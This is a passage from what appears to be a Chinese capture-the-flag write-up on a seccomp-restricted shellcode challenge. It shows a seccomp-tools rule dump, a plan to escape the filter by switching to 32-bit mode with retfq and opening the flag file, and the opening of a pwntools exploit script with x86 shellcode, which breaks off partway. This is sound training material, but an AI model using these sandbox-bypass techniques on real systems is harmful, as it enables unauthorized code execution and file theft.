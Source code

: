 ```asm
    push edx
    pop edx
    push edx
    pop edx
'''

shellcode = asm(shellcode) + '\x6b\x40'
```

然后我找到了[WP](https://xz.aliyun.com/t/6645)...



**沙箱机制**

Seccomp沙箱机制参考这篇[文章](https://hitworld.github.io/posts/4b758b7f/),这种程序的特点一般是调用prctl来对系统调用进行限制。

使用seccomp-tools查看一下程序的沙盒规则，system被限制了，所以之前的shellcode都无法getshell。只能尝试cat flag然后打印出flag的值。

```
# seccomp-tools dump ./shellcode 
---------- Shellcode ----------
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x06 0x00 0x00000005  if (A == fstat) goto 0008
 0002: 0x15 0x05 0x00 0x00000025  if (A == alarm) goto 0008
 0003: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0008
 0004: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0008
 0005: 0x15 0x02 0x00 0x00000009  if (A == mmap) goto 0008
 0006: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x00000000  return KILL
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

师傅们提供的思路

```
1、用可见字符编写shellcode 调用mmap申请地址，调用read读入32位shellcode
2、同时构造用retfq切换到32位模式，跳转到32位shellcode 位置
3、按照32位规则调用fp = open("flag")
4、保存open函数返回的fp指针，再次调用retfq切换回64模式，跳转到64位shellcode位置
5、执行read,write打印flag
```

EXP

```python
#coding:utf-8
from pwn import *
context.log_level = 'debug'
p = process('./shellcode')
# p = remote("nc.eonew.cn","10011")
p.recvuntil("shellcode: ")
append_x86 = '''
push ebx
pop ebx
'''
shellcode_x86 = '''
/*fp = open("flag")*/
mov esp,0x40404140
push 0x67616c66
push esp
pop ebx
xor ecx,ecx
mov eax,5
int 0x80
mov ecx,eax
'''
```